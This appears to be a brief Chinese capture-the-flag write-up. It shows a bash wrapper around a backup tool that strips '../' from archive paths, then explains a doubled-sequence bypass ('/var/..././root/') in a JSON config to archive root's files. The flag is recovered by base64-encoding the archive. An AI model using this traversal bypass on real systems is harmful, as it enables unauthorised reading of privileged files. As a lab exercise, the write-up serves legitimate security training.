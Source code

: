 ```
fi

allowed_paths=("/var/" "/home/")

updated_json=$(/usr/bin/jq '.directories_to_archive |= map(gsub("\\.\\./"; ""))' "$json_file")

/usr/bin/echo "$updated_json" > "$json_file"

directories_to_archive=$(/usr/bin/echo "$updated_json" | /usr/bin/jq -r '.directories_to_archive[]')

is_allowed_path() {
    local path="$1"
    for allowed_path in "${allowed_paths[@]}"; do
        if [[ "$path" == $allowed_path* ]]; then
            return 0
        fi
    done
    return 1
}

for dir in $directories_to_archive; do
    if ! is_allowed_path "$dir"; then
        /usr/bin/echo "Error: $dir is not allowed. Only directories under /var/ and /home/ are allowed."
        exit 1
    fi
done

/usr/bin/backy "$json_file"
```
哎，这个其实是一个开源的东西，github可以找到，类似备份，可以看到禁用了目录穿越，但是只是替换成空格，那么`双写绕过`就行了，除了这个方法，还可以写`.json`老老实实的写
```
{
  "destination": "/home/martin/backups",
  "verbose_log": true,
  "directories_to_sync": [
    "/var/../root/"
  ],
  "directories_to_archive": [
    "/var/..././root/"
  ]
}
```
去读`root`的全部路径到`backup`，然后发现生成的`.tar.gz2`包`root`才可以读，哎，怎么办呢？
`base64`是个伟大的东西，可以把整个文件转成base64，然后去本地解密成`.tar.gz2`，也就是`base64 -d encoded.txt > 1.tar.gz2`，然后解压得到flag
